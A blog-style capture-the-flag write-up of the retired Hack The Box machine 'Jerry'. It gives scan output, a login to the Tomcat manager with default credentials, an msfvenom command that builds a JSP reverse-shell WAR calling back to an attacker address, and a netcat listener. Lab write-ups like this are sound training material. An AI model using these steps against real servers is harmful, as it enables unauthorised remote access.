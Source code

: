```yaml
---
layout:     post
title:      Hackthebox Notes Jerry Pwned
date:       2021-01-24
summary:    Run against Jerry machine on Hackthebox.eu
categories: CTF
thumbnail: cogs
tags:
 - CTF
 - Hackthebox
 - Owned
---
```


-Installed AutoRecon at the advisement of the guys in the TryHackMe Discord.  
-Ran AutoRecon against target host 10.10.10.95

Gobuster:
{% highlight ruby %}
SCAN OUTPUT
/aux (Status: 200) [Size: 0]
/docs (Status: 302) [Size: 0]
/examples (Status: 302) [Size: 0]
/favicon.ico (Status: 200) [Size: 21630]
/host-manager (Status: 302) [Size: 0]
/index.jsp (Status: 200) [Size: 11398]
/lpt1 (Status: 200) [Size: 0]
/lpt2 (Status: 200) [Size: 0]
/manager (Status: 302) [Size: 0]
/prn (Status: 200) [Size: 0]
{% endhighlight %}

Nikto:
{% highlight ruby %}
SCAN OUTPUT
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2021-01-23 21:34:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7968 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-01-23 21:43:01 (GMT-6) (539 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endhighlight %}

Nmap:
{% highlight ruby %}
SCAN OUTPUT
# Nmap 7.91 scan initiated Sat Jan 23 21:33:45 2021 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /home/cpardue/Boxes/jerry/results/10.10.10.95/scans/_full_tcp_nmap.txt -oX /home/cpardue/Boxes/jerry/results/10.10.10.95/scans/xml/_full_tcp_nmap.xml 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.055s latency).
Scanned at 2021-01-23 21:33:45 CST for 115s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 23 21:35:40 2021 -- 1 IP address (1 host up) scanned in 115.20 seconds
{% endhighlight %}

-Visited webserver in browser
-Checked Manager App at /manager/html
-Is a login page
-Looked up and tried default tomcat::s3cret creds
-Logged in, successfully
-Generated msfvenom payload with 
{% highlight ruby %}
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.xx LPORT=4445 -f war > reverse.war  
{% endhighlight %}
-uploaded via Browse & Upload buttons
-started local netcat shell as 
{% highlight ruby %}
nc -nlvp 4445
{% endhighlight %}
-clicked link in server
-payload reached back out to netcat shell
-cd'ed to C:\Users\Administrator\Desktop via cli and read flag

Overall this machine was a bit boring, but it's a retired machine and was randomly selected based on being an Easy rating, so there you go.  
